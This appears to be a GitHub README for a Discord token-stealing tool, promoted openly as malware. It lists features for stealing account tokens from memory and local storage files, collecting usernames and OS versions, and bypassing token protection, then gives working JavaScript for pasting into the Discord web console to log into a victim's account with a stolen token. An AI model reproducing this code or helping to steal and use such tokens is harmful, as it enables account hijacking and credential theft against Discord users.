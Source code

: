 # Discord-Token-Grabber
![Token-Stealer](https://i.imgur.com/cpK3bNV.jpeg)

# Features
*  
* Steal 
  * Token directly From memory 
  * Token from ldb files
  * username
  * os version
  * bypass any kind of token protection


# How to login using token
* open inspect element in https://discord.com/ ,copy and paste this code in console  

```js
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}
```
* use `login("token");` then refresh the webpage ,and you will login automatically to the account using only token
